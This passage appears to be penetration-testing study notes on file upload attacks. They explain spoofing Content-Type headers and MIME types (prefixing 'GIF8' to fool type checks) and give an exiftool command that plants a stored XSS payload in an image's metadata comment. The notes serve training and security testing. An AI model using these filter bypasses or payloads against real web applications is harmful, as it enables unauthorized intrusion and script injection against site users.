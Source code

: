 **Note:** A file upload HTTP request has two Content-Type headers, one for the attached file (at the bottom), and one for the full request (at the top). We usually need to modify the file's Content-Type header, but in some cases the request will only contain the main Content-Type header (e.g. if the uploaded content was sent as `POST` data), in which case we will need to modify the main Content-Type header.

### **MIME-Type**

MIME-Type: Multipurpose Internet Mail Extensions (MIME) is an internet standard that determines the type of a file through its general format and bytes structure.

**Checking and Modify MIME-Type**

```
$ echo "this is a text file" > text.jpg 
$ file text.jpg 

> text.jpg: ASCII text

$ echo "GIF8" > text.jpg 
$ file text.jpg

> text.jpg: GIF image data
```

![image.png](../Images/FU_image11.png)

**Note:**  We can try using an `Allowed MIME type with a disallowed Content-Type`, an `Allowed MIME/Content-Type with a disallowed extension`, or a `Disallowed MIME/Content-Type with an allowed extension`

# **Limited File Uploads**

## Stored XSS in Metadata

```
exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
exiftool HTB.jpg
...SNIP...
Comment                         :  "><img src=1 onerror=alert(window.origin)>
```

